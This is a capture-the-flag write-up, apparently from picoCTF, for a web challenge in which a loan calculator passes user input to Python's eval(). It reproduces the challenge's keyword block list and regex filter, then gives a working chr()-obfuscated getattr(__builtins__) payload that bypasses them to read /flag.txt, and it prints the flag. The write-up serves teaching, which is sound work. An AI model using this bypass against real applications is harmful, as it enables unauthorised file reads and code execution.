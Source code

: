 # **Write-up for Web CTF Challenge: "3v@l"**

---

## **Challenge Overview**

### **Challenge Name:** 3v@l  
### **Category:** Web Exploitation  
### **Description:**  

ABC Bank's website includes a loan calculator that evaluates user input using Python’s `eval()` function. This function is known for its security risks, as it can lead to **Remote Code Execution (RCE)** if not properly sanitized. The objective of this challenge is to exploit this vulnerability and read the flag stored in `/flag.txt`.

---

## **Understanding the Vulnerability**

The `eval()` function is designed to evaluate strings as Python expressions. If user input is passed into `eval()` without strict filtering, an attacker can execute arbitrary Python commands.  

For example:  
```python
eval("2 + 2")  # Output: 4
eval("print('Hello')")  # Output: Hello
```
This becomes dangerous when an attacker can inject their own Python code. In this challenge, we need to work around input restrictions to achieve **RCE**.

---

## **Analyzing Input Restrictions**

The challenge applies several security filters to block common attack patterns:  

- **Blocked keywords:**  
  ```
  os, eval, exec, bind, connect, python, socket, ls, cat, shell
  ```
  These keywords are commonly used for command execution and file manipulation.

- **Regular expression filter:**  
  ```
  r'0x[0-9A-Fa-f]+|\\u[0-9A-Fa-f]{4}|%[0-9A-Fa-f]{2}|\.[A-Za-z0-9]{1,3}\b|[\\\/]|\.\.'
  ```
  This regex blocks:
  - Hex encoding (`0x...`)
  - Unicode encoding (`\uXXXX`)
  - URL encoding (`%xx`)
  - File path characters (`/`, `\`, and `..`)

Since `eval()` is still being used, we can attempt to bypass these restrictions by dynamically constructing our payload.

---

## **Exploitation Strategy**

### **Step 1: Accessing Python’s Built-in Functions**
Since direct use of `open()` is blocked, we look for alternative ways to access it. Python’s built-in functions are stored in `__builtins__`, allowing us to retrieve `open()` dynamically:

```python
getattr(__builtins__, "open")
```
This retrieves the `open()` function without needing to reference it explicitly.

---

### **Step 2: Constructing the File Path**
Since `/flag.txt` cannot be written directly due to the filtering rules, we reconstruct it using the `chr()` function:

- `/` (ASCII 47) → `chr(47)`
- `.` (ASCII 46) → `chr(46)`

Rewriting `/flag.txt` using `chr()`:

```python
chr(47) + "flag" + chr(46) + "txt"
```
This dynamically generates `"/flag.txt"` without using restricted characters.

---

### **Step 3: Reading the Flag**
Now that we have a method to access `open()` and construct the file path, we combine them into a working payload:

```python
getattr(__builtins__, chr(111) + chr(112) + chr(101) + chr(110))(chr(47) + 'flag' + chr(46) + 'txt').read()
```

Breaking it down:
- `chr(111) + chr(112) + chr(101) + chr(110)` reconstructs `"open"`.
- `chr(47) + 'flag' + chr(46) + 'txt'` reconstructs `"/flag.txt"`.
- This is equivalent to:  
  ```python
  open("/flag.txt").read()
  ```
  but written in a way that bypasses filters.

---

### **Step 4: Executing the Exploit**
Entering the above payload into the loan calculator input field returns:

```
picoCTF{D0nt_Use_Unsecure_f@nctions6798a2d8}
```

This confirms that we successfully exploited the `eval()` vulnerability to achieve **remote code execution** and retrieve the flag.
